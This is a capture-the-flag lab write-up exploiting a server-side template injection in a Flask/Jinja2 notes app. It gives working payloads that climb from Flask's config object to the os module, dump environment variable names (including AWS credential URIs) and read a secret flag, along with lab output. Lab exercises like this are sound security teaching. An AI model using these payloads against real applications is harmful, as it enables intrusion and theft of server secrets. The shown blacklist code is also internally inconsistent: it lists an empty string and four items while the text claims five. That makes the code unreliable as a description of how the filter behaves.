

# Task 1. Holberton Notes App - SSTI Exploitation Challenge

The Holberton Notes App contains a critical Server-Side Template Injection (SSTI) vulnerability that allows attackers to execute arbitrary code through unsanitized user input. Although a blacklist is in place to block certain characters and keywords, it's not enough to prevent exploitation.

In this challenge, your objective is to bypass the blacklist, exploit the SSTI vulnerability, and retrieve the hidden flag. This will test your understanding of templating engines, payload crafting, and blacklist bypassing techniques.

Instructions:

Visit the target application `http://web0x0a.task1.hbtn` and test basic payloads like `{{7*7}}` to check if the app evaluates expressions.
Review the base code for the blacklist and try to bypass it using obfuscation techniques (e.g., Unicode encoding or splitting keywords).
Once you've bypassed the blacklist, use the exploit to access sensitive data or environment variables containing the flag.

**Tools & Techniques:**

- Burp Suite for intercepting requests and modifying them.
- Python scripts for automating the testing of payloads.
- Familiarity with Jinja2 templating engine and obfuscation techniques to evade the blacklist.

**Hints:**

- The app uses Jinja2 as its templating engine, which processes user inputs without proper sanitization.
- Input sanitization is incomplete, allowing malicious template injection.
- A blacklist exists to block certain characters or keywords, and its details are accessible in the provided base code.

App:



By reviewing the code, we can see that there is a blacklist:


- Initial Endpoint: `http://web0x0a.task1.hbtn`
- Code Base: [App.py](https://github.com/hs-hq/web0x0a/blob/main/task_1/app.py)

**Repo**:

- GitHub repository: `dlh-cyber_security`
- Directory: `web_application_security/0x0a_advanced_web_attack_techniques`
- File: `1-flag.txt`


## **Solution**:

- Start sandbox `cyber_websec_0x0a_task1`.
- Start openvpn.
- Put IP address of the sandbox in `/etc/hosts` file.
```bash
echo "10.42.222.185 web0x0a.task1.hbtn" | sudo tee -a /etc/hosts
sudo vim /etc/hosts
ping -c 2 web0x0a.task1.hbtn
```


### **Step 1: Understand the vulnerability**

Reviewing the [Task 1 source code](https://github.com/hs-hq/web0x0a/blob/main/task_1/app.py), we can see that the application uses Jinja2 to render user input without proper sanitization. The blacklist is implemented in the `sanitize_input` function, which checks for specific keywords and raises a `ValueError` if any are found.

The critical lines are:

```python
BLACKLIST = ["", "import", "open", "sys"]

def sanitize_input(content):
    for item in BLACKLIST:
        if item in content:
            raise ValueError("Blacklisted characters detected")
    return content
```

And:

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        content = request.form.get('content')
        try:
            sanitized_content = sanitize_input(content)
            return render_template_string(sanitized_content)
        except ValueError as e:
            return str(e), 500
    return render_template('index.html', notes=notes)
```

Three important observations:

1. **SSTI is confirmed:** Verified that Task 1 "Add a Note" with content `{{7*7}}` evaluates to `49`.
2. **The blacklist is weak:** It only searches for five specific strings.
3. **The flag is stored in an environment variable:** We can investigate whether Jinja2 exposes a route to Python's environment variables.

Our objective is to access that environment without using the blocked keywords.

### **Action**

Let's identify Task 1's IP address.

Run this in your Kali terminal:

```
getent ahostsv4 web0x0a.task1.hbtn
```

This resolves the hostname using Kali's configured name resolution, including `/etc/hosts`.

**Command Output:**

```bash
getent ahostsv4 web0x0a.task1.hbtn

10.42.222.185   STREAM web0x0a.task1.hbtn
10.42.222.185   DGRAM
10.42.222.185   RAW

┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.42.222.185 web0x0a.task1.hbtn
```


### **Step 2: Explore Python's environment variables**

Here's the interesting part: the blacklist blocks `import`, but the Flask application already has access to Python modules.

We can potentially reach the `os` module through Jinja2's `config` object without importing anything.

**Your next action:**

Open [http://10.42.222.185/](http://10.42.222.185/) in Firefox.

Enter this payload into **Note Content**:

```
{{config.__class__.__init__.__globals__['os'].environ.keys()|list}}
```

Click **Add Note**.

### **How the payload works**

| Expression            | Purpose                                   |
| --------------------- | ----------------------------------------- |
| `config`              | Access Flask's configuration object       |
| `.__class__.__init__` | Reach its Python constructor              |
| `.__globals__`        | Access the constructor's global namespace |
| `['os']`              | Retrieve the already-imported `os` module |
| `.environ.keys()`     | Retrieve environment variable names       |
| `\\|list`             | Convert the names into a printable list   |

Notice that our payload contains none of the five blacklisted strings.

**Expected result:** A list of environment variable names, potentially including `FLAG`, `flag`, or something similar.

**Our lab result**:
```py
['AWS_EXECUTION_ENV', 'AWS_CONTAINER_CREDENTIALS_RELATIVE_URI', 'HOSTNAME', 'PYTHON_VERSION', 'AWS_DEFAULT_REGION', 'AWS_REGION', 'PWD', 'ECS_CONTAINER_METADATA_URI_V4', 'HOME', 'LANG', 'GPG_KEY', 'FLAG', 'ECS_AGENT_URI', 'FLASK_APP', 'ECS_CONTAINER_METADATA_URI', 'SHLVL', 'PATH', 'OLDPWD', '_', 'FLASK_RUN_FROM_CLI', 'WERKZEUG_SERVER_FD']
```

✅ SSTI blacklist bypass successful!

Our payload worked. The application exposed the server's environment variable names.

Most importantly, we found:

```py
'FLAG'
```

This confirms that the environment contains a variable named `FLAG`.

### **Step 3: Retrieve the flag**

Now we can modify our payload to access the value of that specific variable.

**Your next action:**

Go back to [http://10.42.222.185/](http://10.42.222.185/) and enter:

```py
{{config.__class__.__init__.__globals__['os'].environ['FLAG']}}
```

Click **Add Note**.

**What's different?**

Previously, we used:

```py
.environ.keys()
```

This returned the names of all environment variables.

Now we're using:

```py
.environ['FLAG']
```

This retrieves the value associated with the `FLAG` key.

The payload still avoids all five blacklisted strings:

``, `import`, `open`, `sys`.

**Expected result:** The application should display the flag directly.


**Our lab result**:

```
0e6dfc4a47c66c3e6735317f16bfd599
```

### **Step 4: Save the flag**

Create a file named `1-flag.txt` and write the flag and push it.

```bash
echo "0e6dfc4a47c66c3e6735317f16bfd599" > 1-flag.txt
git add .
git commit -m "1-flag.txt"
git push
```
